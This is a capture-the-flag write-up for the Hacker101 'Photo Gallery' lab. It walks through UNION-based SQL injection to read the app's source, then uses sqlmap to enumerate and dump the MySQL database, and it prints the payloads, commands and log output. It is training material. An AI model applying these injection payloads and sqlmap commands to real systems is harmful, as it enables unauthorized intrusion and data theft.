



# Photo Gallery

Starting the challenge and going to the website we see the following:



Ok, they are adorable, but where is the 3rd one?

--- 

## Flag 0 - Injecting some SQL to find the missing kitten

### Accessing the situation - part 1:

Let's see the network tab of developer tools:



The `500` status is interesting. Let's look into it further:

The request:
```
GET https://64b3a404931f79c97a19c4065979a7fd.ctf.hacker101.com/fetch?id=3

Host: 64b3a404931f79c97a19c4065979a7fd.ctf.hacker101.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://64b3a404931f79c97a19c4065979a7fd.ctf.hacker101.com/
Connection: keep-alive
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Cache-Control: max-age=0, no-cache
TE: trailers
Pragma: no-cache
```

The response's headers:
```
HTTP/2 500 Internal Server Error
date: Fri, 25 Mar 2022 11:24:34 GMT
content-type: text/html
content-length: 291
server: openresty/1.19.9.1
X-Firefox-Spdy: h2
```

Ok... So what?

I tried it with different ids (numbers or letters), but the server still responds with `500`.

Changing the method from GET to POST returns `405` (method not allowed), which doesn't hint to anything for now...

Lets take a look at the hints for this flag:

* Consider how you might build this system yourself. What would the query for fetch look like?

Ok... I would build it so that it didn't respond with `500` for not finding an image, or for anything for that matter. Nevertheless, the wording, especially the use of the word "query", is an interesting choice.

By *accidentally* clicking the hint button again, we take a quick glimpse of the second hint for this flag:

* Take a few minutes to consider the state of the union

Does it mean an SQL union?

### Attempt 1:

Let's try to find a way to inject some SQL. The command *might* look something like this:

```SQL
SELECT image_data FROM image_table WHERE id=%id
```

With the following payload we should get a response that should indicate if the system is vulnerable to such an attack:

`1 UNION SELECT * FROM INFORMATION_SCHEMA.TABLES`

to form:

```SQL
SELECT image_data FROM image_table WHERE id=1 UNION SELECT * FROM INFORMATION_SCHEMA.TABLES
```

After sending the request the server responds with the data for image with id=1 as if nothing happened. Ok... Let's try the id of the image that doesn't exist (for example id=3).

The server responds with the same `500` status error... Ok... great...

### Accessing the situation - part 2:

Let's see if nmap can shed some light. Using `nmap -T4 -A -v` on the ip of the server we get:

```
[...]

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http OpenResty web app server 1.19.9.1

[...]

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X (87%)
OS CPE: cpe:/o:linux:linux_kernel:4.2

[...]
```

Ok, only one open port, so there is no other point of entry. It is a linux machine, not sure how we can use this for leverage. The only thing that stands out to me (because it is the first time I see such a thing) is the `OpenResty web app server 1.19.9.1`. That is the same as the response header `server: openresty/1.19.9.1`. Let's find out what that is about.


Quoting the website:

```
OpenResty® is a full-fledged web platform that integrates our enhanced version of the Nginx core, our enhanced version of LuaJIT, many carefully written Lua libraries, lots of high quality 3rd-party Nginx modules, and most of their external dependencies. It is designed to help developers easily build scalable web applications, web services, and dynamic web gateways.

[...]

```

The website won't shut up about them using nginx... Is this information useful? Does this version have any well known vulnerabilities? Let's google it really quick...

*A few seconds later*

Oh... My... God... It has a LOT of severe vulnerabilities! Courtesy of [snyk.io](https://snyk.io/test/docker/openresty%2Fopenresty%3A1.19.9.1-centos7):




The three critical ones are all about `out-of-bounds write` that affect three modules ` nss`, ` nss-tools` and `nss-sysinit`. We may have use for this later (maybe has something to do with the `Space used: 0 total` message at the bottom of the website?).

There is one *new* report about an SQL injection for the module `cyrus-sasl-lib`! That is interesting! Let's read through it:

```
In Cyrus SASL 2.1.17 through 2.1.27 before 2.1.28, plugins/sql.c does not escape the password for a SQL INSERT or UPDATE statement.
```

So in skyk.io they pronounce SQL as *sequel*, judging by the use of "a" instead of "an".

Other than that this is some nice info to have, but I don't think it is useful for us for the time being...

Let's get back to the sql injection.

### Attempt 2:

The previous payload didn't return any results. Maybe the `UNION` keyword has a different use? Quoting [W3schools](https://www.w3schools.com/sql/sql_union.asp):

```
The UNION operator is used to combine the result-set of two or more SELECT statements.

* Every SELECT statement within UNION must have the same number of columns
* The columns must also have similar data types
* The columns in every SELECT statement must also be in the same order
```

That is interesting. `UNION` combines two `SELECT` statements that give **similar results**. That may be the reason that the injection didn't work before. We have to make it select  a file. But what file?

Is there a way to get a list of all the files?

### Accessing the situation - part 3:

First, let's try and see what happens with different inputs. We have tried other numbers like 1, 2, 3, etc and letters. We haven't tried negative numbers though. What about `-1`?

```
https://64b3a404931f79c97a19c4065979a7fd.ctf.hacker101.com/fetch?id=-1
```

The server responds with `404 - Not Found`.

Ok, this is new. This *might* mean that the SQL command got executed, but the backend responded with `404`.

Can it execute multiple SQL commands? The payload is: `-1; SELECT table_name FROM information_schema.tables INTO OUTFILE './temp.txt'; SELECT 'temp.txt'` to form:

```sql
SELECT image_data FROM image_table WHERE id=-1; SELECT table_name FROM information_schema.tables INTO OUTFILE './temp.txt'; SELECT 'temp.txt'
```

So that it fetches all the tables' names and saves them into the text file `temp.txt`, which then it reads.

The server responds with `404`. So the file was not created. The same happens with running the command in parts (one request to create the file, another to read it). This means that we probably cannot create a new file, we can only read those that already exist on the server.

It is time to take a look at the last hint for this flag:

* This application runs on the uwsgi-nginx-flask-docker image

Ok, let's see what does this image [contain](https://github.com/tiangolo/uwsgi-nginx-flask-docker):

```
[...]

Description

This Docker image allows you to create Flask web applications in Python that run with uWSGI and Nginx in a single container.

The combination of uWSGI with Nginx is a common way to deploy Python Flask web applications. It is widely used in the industry and would give you decent performance. (*)

[...]
```

and scrolling down to "General Instructions" we get an even better idea of what files this image may contain:

```
[...]

* Create an app directory and enter in it
* Create a main.py file (it should be named like that and should be in your app directory) with:

[...]

```

### Attempt 3:

So it is a webserver based on the flask python module and there might be a `main.py` file. So let's send this payload:

```
https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=-1; SELECT 'main.py'
```

`404`
What? Why? Oh, I forgot to use the `UNION`...

```
https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=-1 UNION SELECT main.py
```

`500`
What now...? Oh, I forgot the `'`


```
https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=-1 UNION SELECT 'main.py'
```
Finally, we get the [source code](./helpfull_files/main.py)...

```html
from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess

app = Flask(__name__)

[...]

@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	# It's dangerous to go alone, take this:
	# ^FLAG^****************************************************************$FLAG$

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)
```

... and the flag!


### Notes:
* I don't know how would anyone guess that this is a python server without the hint. All the write ups for this just assume there is a `main.py` file. I guess this is a common thing to look for.
* An interesting read about the UNION-based Injection is [this](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql) from sqlwiki.netspi.com

---

## Flag 1 - Following the missing kitten back to its home

### Useful Info:

[sqlmap cheatsheet with examples](https://resources.infosecinstitute.com/topic/important-sqlmap-commands/)


### Accessing the situation:

I am not in the mood to stumble around in the dark anymore. Give me the hints:

```
* I never trust a kitten I can't see
* Or a query whose results I can't see, for that matter
```

Ok, these are more or less useless on their own. Let's take a closer look at the source code...

Some conclusions can be drawn from looking at the code about:

* The database:
    * It is a MySQL database
    * host: same as server ip
    * username is `root` with no password
    * the database name is `level5`
        * It has two tables (maybe more):
            * `albums` with columns `id`, `title`
            * `photos` with columns `id`, `title`, `filename`, `parent`
* The landing page:
    * The `Space used:` message shows the last line from the results of this bash command: `du -ch files/__file1__ files/__file2__ || exit 0`
* The `/fetch` endpoint:
    * It expects an `id` from the request's headers. Does not check what this `id` may be.
    * If the query affects no rows then it uses the result of the first line to read a file and render its contents. Otherwise it 404s.

The `/fetch` endpoint is the one we will focus on. We can pass any SQL command to it (as long as it affects no rows, so only reading) and it has two possible responses (`404` and `500`).

Let's try to use a readily available tool for this challenge. [SQLmap](https://sqlmap.org/) is the one for the job. Let's use the most common command:

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --batch
```

After a little while the results are in:

```log
[...]

sqlmap identified the following injection point(s) with a total of 311 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2374=2374

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=1 OR SLEEP(5)
---
[17:15:21] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.19.9.1
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:15:23] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 10 times, 500 (Internal Server Error) - 278 times
```

The complete log is in the [sqlmap.log](./helpfull_files/sqlmap.log) file.

It has given us a lot of useful information! Let's use this tool in a more aggressive way by using the `-dbs` flag. Also, let's add some speed with `--threads 8`.

sqlmap will use the exploits it have found to retrieve the databases' names. It achieves this by treating the server as an oracle. The server responds with `500` or `404` depending on whether the sql commands were run successfully or not. This way we can find a lot of info.

For example, let's find what databases exist by running: 

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --dbs --threads 8
```

```log
[...]

available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```

Ok, we knew there exists a `level5` database by looking at the source code. The other 3 are typical MySQL databases and are not useful to us right now.

Let's find what tables exist in the `level5` database by running:

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --threads 8 -D level5 --tables
```

```log
[...]

Database: level5
[2 tables]
+--------+
| albums |
| photos |
+--------+
```

Again, this is confirmed by the source code. Can we extract anything more? Let's see the columns of the table `photos`:

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --threads 8 -D level5 -T photos --columns
```

```log
[...]

Database: level5
Table: photos
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| filename | text    |
| id       | int(11) |
| parent   | int(11) |
| title    | text    |
+----------+---------+
```

Ok, so the source code literally told us everything about this table. Can we have a more direct access to the database though? What about a mysql shell?

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --threads 8 --sql-shell
```

After disabling the threads when sqlmap asks:

```log
[...]

[18:15:43] [INFO] resuming back-end DBMS 'mysql' 
[18:15:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2374=2374

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=1 OR SLEEP(5)
---
[18:15:45] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.19.9.1
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:15:45] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell>
```

Ok, let's try to type something...

Typing `?` Doesn't work, I don't know why I typed that...

Let's try to see the contents of the `photos` table. Let's type `USE level5` as we would in an sql shell. No answer back which is good.

Now let's send `SELECT * FROM photos` about which sqlmap says:

```log
[18:19:42] [INFO] fetching SQL SELECT statement query output: 'SELECT * FROM photos'
[18:19:42] [INFO] you did not provide the fields in your query. sqlmap will retrieve the column names itself
[18:19:42] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
```

Ok, I though I had an interactive shell running. That is not the case. Sqlmap tries to create the *illusion* of an SQL shell I guess. Each SQL command is run by making a request to the server, it doesn't ssh into it. After some time we see:

```log
[...]

the SQL query provided can return 3 entries. How many entries do you want to retrieve?
[a] All (default)
[#] Specific number
[q] Quit
> a

[...]

[18:20:09] [INFO] the query with expanded column name(s) is: SELECT filename, id, parent, title FROM photos

[...]

[*] files/adorable.jpg, 1, 1, Utterly adorable
[*] files/purrfect.jpg, 2, 1, Purrfect
[*] d107946d4c338bd606e3074815ed6545f31b2b97b46b7cb44e20f37580512c0b, 3, 1, Invisible
```

Ok, before examining the results, let's exit the *sql shell*.

The final value for the `filename` is strange. It must be some encoded string or something similar.

*Some googling later*

Ok, that was a strange series of events... I initially thought this was a base64 string, which is not the case. Then I noticed that the letters only go up to `f` and the string has an even number of characters. This means that this might be a series of HEX values. Is it an ascii string? Wait a minute! The flag is a series of hex values. "Is the flag looking right at me?" is what I thought. This is indeed the case. That is the flag.

### Notes:
* A very nicely written writeup for this challenge is [this one](https://dev.to/caffiendkitten/hacker101-ctf-photo-gallery-4foi) from *DaNel C*. I got the motivation to use `sqlmap` instead of writing my own tool from scratch. I don't know how she decoded the flag though. It might be an old version of the challenge? The write up was initially written on `Apr 25, 2020` and updated on `Dec 19, 2020`. I don't know...
* Another write up is the [one](https://www.secjuice.com/photo-gallery/) from *pirateducky*. He solves the second flag by writing his own ruby script.
* The actual flag has been replaced by random HEX values.

---

## Flag 2 -

